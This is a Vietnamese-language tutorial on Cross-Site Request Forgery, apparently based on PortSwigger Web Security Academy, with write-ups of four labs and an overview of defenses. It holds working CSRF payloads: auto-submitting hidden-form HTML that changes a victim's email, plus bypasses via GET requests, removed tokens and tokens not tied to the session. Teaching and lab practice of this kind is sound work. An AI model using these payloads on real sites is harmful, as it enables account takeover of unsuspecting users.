## CSRF là gì?

Cross-Site Request Forgery (CSRF), còn được gọi là giả mạo yêu cầu liên trang, là một lỗ hổng bảo mật web cho phép kẻ tấn công khiến người dùng thực hiện những hành động mà họ không chủ ý thực hiện. Nó cho phép kẻ tấn công phần nào vượt qua cơ chế Same-Origin Policy, vốn được thiết kế để ngăn các website khác nhau can thiệp vào nhau.

## Tác động của một cuộc tấn công CSRF là gì?

Trong một cuộc tấn công CSRF thành công, kẻ tấn công khiến người dùng thực hiện một hành động mà họ không hề chủ ý. Ví dụ, hành động đó có thể là thay đổi địa chỉ email, thay đổi mật khẩu hoặc chuyển tiền.

Tùy thuộc vào tính chất của hành động, kẻ tấn công có thể chiếm toàn quyền kiểm soát tài khoản của người dùng. Nếu người dùng bị tấn công có quyền quản trị trong ứng dụng, kẻ tấn công thậm chí có thể kiểm soát toàn bộ dữ liệu và chức năng của ứng dụng.

## CSRF hoạt động thế nào?

Để một cuộc tấn công CSRF có thể xảy ra, cần có 3 điều kiện chính:

- Có một hành động phù hợp: Ứng dụng có một chức năng mà kẻ tấn công muốn khiến nạn nhân thực hiện. Đây có thể là hành động có quyền cao, chẳng hạn thay đổi quyền của người dùng khác, hoặc bất kỳ hành động nào liên quan đến dữ liệu riêng của người dùng, chẳng hạn đổi mật khẩu của chính họ.
- Quản lý phiên dựa trên Cookie: Khi thực hiện hành động, trình duyệt gửi một hoặc nhiều HTTP request và ứng dụng chỉ dựa vào session cookie để xác định người dùng gửi request. Không có cơ chế nào khác để theo dõi phiên hoặc xác thực request.
- Không có tham số request không thể đoán trước: Request thực hiện hành động không chứa tham số nào mà kẻ tấn công không thể biết hoặc đoán được. Ví dụ, nếu muốn đổi mật khẩu mà kẻ tấn công phải biết mật khẩu hiện tại của nạn nhân thì chức năng đó không dễ bị CSRF theo cách này.

VD: Giả sử ứng dụng có chức năng cho phép người dùng thay đổi email tài khoản. Khi người dùng thực hiện, trình duyệt gửi request:

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE

email=wiener@normal-user.com
```

Request này đáp ứng đủ điều kiện để thực hiện CSRF:

- Đổi email là hành động có lợi cho kẻ tấn công. Sau khi email bị thay đổi, kẻ tấn công có thể kích hoạt chức năng reset mật khẩu và chiếm tài khoản.
- Ứng dụng sử dụng session cookie để xác định người gửi request. Không có token hoặc cơ chế khác để xác thực request.
- Kẻ tấn công biết được các tham số cần thiết, ở đây chỉ cần biết giá trị của email.

Kẻ tấn công có thể tạo một trang HTML như sau:

```
<html>
<body>
    <form action="https://vulnerable-website.com/email/change" method="POST">
        <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>

    <script>
        document.forms[0].submit();
    </script>
</body>
</html>
```

Ý nghĩa:

- `<form>` tạo một request POST tới chức năng đổi email.
- email được đặt thành email của kẻ tấn công.
- JavaScript submit() tự động gửi form mà nạn nhân không cần bấm nút.

Khi nạn nhân truy cập trang độc hại, sẽ xảy ra:

- Trang của kẻ tấn công kích hoạt HTTP request tới website dễ bị CSRF.
- Nếu nạn nhân đang đăng nhập vào website đó, trình duyệt sẽ tự động gửi session cookie của nạn nhân kèm request (giả sử Cookie không sử dụng cơ chế SameSite để chống CSRF).
- Website nhận request và tin rằng request được gửi bởi chính nạn nhân, sau đó thay đổi email tài khoản thành: `pwned@evil-user.net`

## Cách tạo một cuộc tấn công CSRF

Việc tự tạo thủ công HTML cần thiết cho một khai thác CSRF có thể khá mất công, đặc biệt khi request cần gửi có nhiều tham số hoặc có những đặc điểm đặc biệt trong request. Cách dễ nhất để tạo CSRF exploit là sử dụng CSRF PoC Generator được tích hợp trong Burp Suite Professional:

- Trong Burp Suite Professional, chọn một request muốn kiểm tra hoặc khai thác.
- Nhấp chuột phải vào request → chọn: Engagement tools → Generate CSRF PoC.
- Burp Suite sẽ tự động tạo HTML có khả năng gửi request đã chọn (trừ Cookie, vì Cookie sẽ được trình duyệt của nạn nhân tự động thêm vào).
- Có thể điều chỉnh các tùy chọn trong CSRF PoC Generator để tinh chỉnh cách thức tấn công. Điều này có thể cần thiết trong một số trường hợp đặc biệt khi request có những đặc điểm bất thường.
- Copy HTML được tạo vào một trang web, sau đó mở trang đó bằng trình duyệt đang đăng nhập vào website dễ bị tấn công và kiểm tra xem request có được gửi thành công hay không, đồng thời hành động mong muốn có xảy ra hay không.

Lab 1: CSRF vulnerability with no defenses



Thực hiện đổi email và bắt request đó trong burp



Tạo CSRF PoC sau đó dán vào body của server, đổi email thành 1 email mới. PoC:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aff00b1043fe6c381d50cbe005300af.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="phuc12345@gmail.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```



Sau đó deliver exploit to victim thì sẽ solve được bài lab



CSRF thường được phát tán bằng cách dụ nạn nhân truy cập một trang web có chứa request độc hại. Các cách phổ biến:

- Kẻ tấn công tạo HTML chứa request CSRF.
- Đặt HTML đó trên website của mình hoặc một website có thể chèn nội dung.
- Dụ nạn nhân truy cập trang đó.
- Trình duyệt của nạn nhân gửi request đến website mục tiêu kèm phiên đăng nhập hiện tại.

Trường hợp đặc biệt: Nếu chức năng bị lỗi cho phép thực hiện bằng GET, kẻ tấn công có thể chỉ cần gửi cho nạn nhân một URL độc hại, không nhất thiết phải tạo website riêng.

## Các biện pháp phòng chống CSRF phổ biến

Ngày nay, việc tìm và khai thác thành công các lỗ hổng CSRF thường liên quan đến việc vượt qua các biện pháp chống CSRF được triển khai bởi website mục tiêu, trình duyệt của nạn nhân, hoặc cả hai.

Những biện pháp phòng chống phổ biến nhất gồm:

- CSRF token – CSRF token là một giá trị duy nhất, bí mật và khó đoán, được ứng dụng phía máy chủ tạo ra và gửi cho phía client. Khi thực hiện một hành động nhạy cảm, chẳng hạn như gửi form, client phải gửi kèm CSRF token chính xác trong request. Điều này khiến attacker rất khó tạo ra một request hợp lệ thay mặt cho nạn nhân.

- SameSite cookies – SameSite là một cơ chế bảo mật của trình duyệt, quyết định khi nào cookie của một website được gửi kèm trong request xuất phát từ website khác. Vì các hành động nhạy cảm thường yêu cầu cookie phiên đăng nhập, các thiết lập SameSite phù hợp có thể ngăn attacker kích hoạt những hành động này từ một website khác. Từ năm 2021, Chrome mặc định áp dụng giới hạn SameSite là Lax. Vì đây là tiêu chuẩn được đề xuất, các trình duyệt lớn khác cũng được kỳ vọng áp dụng hành vi này.

- Referer-based validation – Một số ứng dụng sử dụng HTTP header Referer để cố gắng chống CSRF, thường bằng cách kiểm tra xem request có xuất phát từ chính domain của ứng dụng hay không. Cách này nhìn chung kém hiệu quả hơn so với việc kiểm tra CSRF token.

Tips: CSRF Token bảo vệ bằng secret token, SameSite bảo vệ bằng việc kiểm soát cookie cross-site, còn Referer validation bảo vệ bằng cách kiểm tra nguồn gốc của request.

### CSRF token là gì?

CSRF token là một giá trị duy nhất, bí mật và không thể đoán trước được ứng dụng phía máy chủ tạo ra và chia sẻ với phía client. Khi thực hiện một request để tiến hành một hành động nhạy cảm, chẳng hạn như gửi một form, client phải gửi kèm CSRF token chính xác. Nếu không, máy chủ sẽ từ chối thực hiện hành động được yêu cầu.

Một cách phổ biến để chia sẻ CSRF token với client là đưa token vào form HTML dưới dạng một tham số ẩn, ví dụ:

```
<form name="change-email-form" action="/my-account/change-email" method="POST"> <label>Email</label> <input required type="email" name="email" value="example@normal-website.com"> <input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u"> <button class='button' type='submit'> Update email </button> </form>
```

Việc gửi form này sẽ tạo ra request sau:

```
POST /my-account/change-email HTTP/1.1
Host: normal-website.com Content-Length: 70
Content-Type: application/x-www-form-urlencoded csrf=50FaWgdOhi9M9wyna8taR1k3ODOR8d6u&email=example@normal-website.com
```

Khi được triển khai đúng cách, CSRF token giúp bảo vệ chống lại các cuộc tấn công CSRF bằng cách khiến kẻ tấn công khó có thể tạo ra một request hợp lệ thay mặt cho nạn nhân.

Do kẻ tấn công không có cách nào dự đoán được giá trị CSRF token chính xác, chúng sẽ không thể đưa token hợp lệ vào request độc hại.

### Các lỗi phổ biến trong việc xác thực CSRF token

#### Việc xác thực CSRF token phụ thuộc vào phương thức request

Một số ứng dụng xác thực token một cách chính xác khi request sử dụng phương thức POST, nhưng lại bỏ qua việc xác thực khi sử dụng phương thức GET.

Trong trường hợp này, kẻ tấn công có thể chuyển sang sử dụng phương thức GET để bypass việc xác thực và thực hiện một cuộc tấn công CSRF:

```
GET /email/change?email=pwned@evil-user.net HTTP/1.1 Host: vulnerable-website.com Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
```

Lab 2: CSRF where token validation depends on request method

Yêu cầu bài lab:



Đăng nhập vào tài khoản wiener, thực hiện đổi email, bắt request này sau đó tạo PoC CSRF



Sử dụng phương thức POST thì không thành công giải bài lab mà ta cần thay thành GET, payload như sau:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aaa009a0420715c81b2521800760066.web-security-academy.net/my-account/change-email" method="GET">
      <input type="hidden" name="email" value="phuc123@gmail.com" />
      <input type="hidden" name="csrf" value="RwrOH6q1xTTwnrPg9s8b4vbfSPBZc6CK" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Hoàn thành bài lab



#### Việc xác thực CSRF token phụ thuộc vào việc token có tồn tại

Một số ứng dụng xác thực token một cách chính xác khi token được gửi kèm, nhưng lại bỏ qua việc xác thực nếu token bị thiếu.

Trong trường hợp này, kẻ tấn công có thể xóa toàn bộ tham số chứa token để bypass việc xác thực và thực hiện một cuộc tấn công CSRF:

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm email=pwned@evil-user.net
```

Lab 3: CSRF where token validation depends on token being present



Thực hiện update email, sau đó bắt request này và tạo CSRF PoC. Thực hiện xóa CSRF token để server không xử lý sau đó hoàn thành bài lab. Payload:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ac100ec0389e0af803e5d0200a8007f.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="met@gmail.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Hoàn thành bài lab:



#### CSRF token không được liên kết với phiên người dùng

Một số ứng dụng không xác thực rằng token thuộc về cùng một session với người dùng đang thực hiện request. Thay vào đó, ứng dụng duy trì một pool token dùng chung mà nó đã cấp phát và chấp nhận bất kỳ token nào xuất hiện trong pool này.

Trong trường hợp này, kẻ tấn công có thể đăng nhập vào ứng dụng bằng tài khoản của chính mình, lấy được một token hợp lệ, sau đó đưa token đó cho người dùng nạn nhân trong cuộc tấn công CSRF của mình.

Lab 4: CSRF where token is not tied to user session



Đăng nhập vào wiener, thực hiện update email sau đó lấy csrf token của user wiener



Đăng nhập vào tài khoanr wiener, thực hiện update email nhưng mục tiêu lấy csrf token, sau đó phải drop request này. Đăng nhập vào tài khoản carlos, thực hiện update email, sau đó tạo PoC CSRF ở request update email. Payload sau khi đổi csrf token của wiener:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a21007e0328c79180f10370005100ed.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="phuc123345@gmail.com" />
      <input type="hidden" name="csrf" value="3IvyxIMYqTUCvRx0q8cNDBLBDjwlwUeV" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Hoàn thành bài lab:



#### CSRF token được liên kết với một cookie không phải session

Trong một biến thể của lỗ hổng đã đề cập ở trên, một số ứng dụng có liên kết CSRF token với một cookie, nhưng không phải cookie được sử dụng để theo dõi session.

Điều này có thể dễ dàng xảy ra khi một ứng dụng sử dụng hai framework khác nhau: một framework để xử lý session, và một framework để bảo vệ CSRF. Hai framework này không được tích hợp với nhau:

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```

Tình huống này khó khai thác hơn, nhưng ứng dụng vẫn có lỗ hổng. Nếu website có bất kỳ hành vi nào cho phép kẻ tấn công thiết lập một cookie trong trình duyệt của nạn nhân, thì cuộc tấn công vẫn có thể thực hiện được. Kẻ tấn công có thể:

- Đăng nhập vào ứng dụng bằng tài khoản của chính mình.
- Lấy một CSRF token hợp lệ và cookie tương ứng với token đó.
- Lợi dụng hành vi cho phép thiết lập cookie để đặt cookie của kẻ tấn công vào trình duyệt của nạn nhân.
- Gửi token của kẻ tấn công cho nạn nhân trong cuộc tấn công CSRF.
